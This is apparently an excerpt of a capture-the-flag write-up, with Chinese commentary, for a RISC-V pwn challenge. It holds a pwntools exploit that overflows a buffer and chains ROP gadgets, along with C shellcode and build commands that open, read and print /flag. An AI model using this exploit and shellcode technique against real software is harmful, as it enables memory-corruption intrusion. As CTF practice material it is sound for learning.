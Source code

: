 ```python

p1 = flat(
    # b"flag{have_you_tried_ghidra9.2_decompiler_@if_you_have_hexriscv_plz_share_it_with_me_thx:P}".ljust(0x118, '\x00'),
    b'a'*0x118,
    0xdeadbeef, # S0
    gad1, # ra
    gen_rop_chain(gets_addr, bss),
    gen_rop_chain(bss)
)

sla(io, "flag", p1)

sc = open("./sc.bin", "rb").read()

sla(io, "wrong", sc)

io.interactive()
```

sc.bin 由如下代码生成:

```c
#include <linux/unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <sys/uio.h>
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

static char flag_path[] = "/flag";
// __attribute__((section(".text#"))) static char flag_path[] = "/flag";

int syscall(uint64_t nr, ...);

void _start(){
    char buf[0x400];
    int fd = syscall(__NR_openat, AT_FDCWD, flag_path, 0, 0);
    syscall(__NR_read, fd, buf, sizeof(buf));
    syscall(__NR_write, 1, buf, sizeof(buf));
}

asm(
    "syscall:\n"
        "mv a7, a0\n"
        "mv a0, a1\n"
        "mv a1, a2\n"
        "mv a2, a3\n"
        "mv a3, a4\n"
        "mv a4, a5\n"
        "mv a5, a6\n"
        "ecall\n"
        "ret\n"
);

/*
riscv64-linux-gnu-gcc-10 -Wa,-R -fPIC -O0 -nostdlib sc.c -o sc
riscv64-linux-gnu-objcopy -S -O binary -j .text ./sc ./sc.bin
riscv64-linux-gnu-objdump -d ./sc | less
*/
```
